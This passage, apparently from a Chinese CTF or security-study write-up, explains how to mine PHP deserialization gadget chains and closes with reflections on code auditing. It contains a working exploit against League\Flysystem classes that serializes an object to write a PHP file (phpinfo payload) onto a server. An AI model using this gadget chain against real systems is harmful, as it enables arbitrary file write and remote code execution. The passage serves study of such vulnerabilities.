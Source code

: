 我们可以知道这里的`$contents`是可控的，属于是经验了

接下来又是一个我们经常面临的选择，是去找同名方法呢，还是去想办法触发`__call` ，贴一个找同名方法的exp

```php
<?php

namespace League\Flysystem\Cached\Storage;

abstract class AbstractCache
{
    protected $autosave = false;
    protected $cache = ['<?php phpinfo();?>'];
}

namespace League\Flysystem\Cached\Storage;

class Adapter extends AbstractCache
{
    protected $adapter;
    protected $file;

    public function __construct($obj)
    {
        $this->adapter = $obj;
        $this->file = 'DawnT0wn.php';
    }
}

namespace League\Flysystem\Adapter;

abstract class AbstractAdapter
{
}

namespace League\Flysystem\Adapter;

use League\Flysystem\Cached\Storage\Adapter;
use League\Flysystem\Config;

class Local extends AbstractAdapter
{

    public function has($path)
    {
    }

    public function write($path, $contents, Config $config)
    {
    }
}

$a = new Local();
$b = new Adapter($a);
echo base64_encode(serialize($b));
```

总结
--

反序列化链的挖掘是一种能力，我认为首先要有足够的耐心和专注，其次是要有足够的知识储备，代码审计是门艺术，艺术都是拿时间砸出来的。

现在倒是不怕做大的框架的题了，扒链子砸呗，大不了自己分析一遍看看哪里不对

要静得下心，才能走更远的路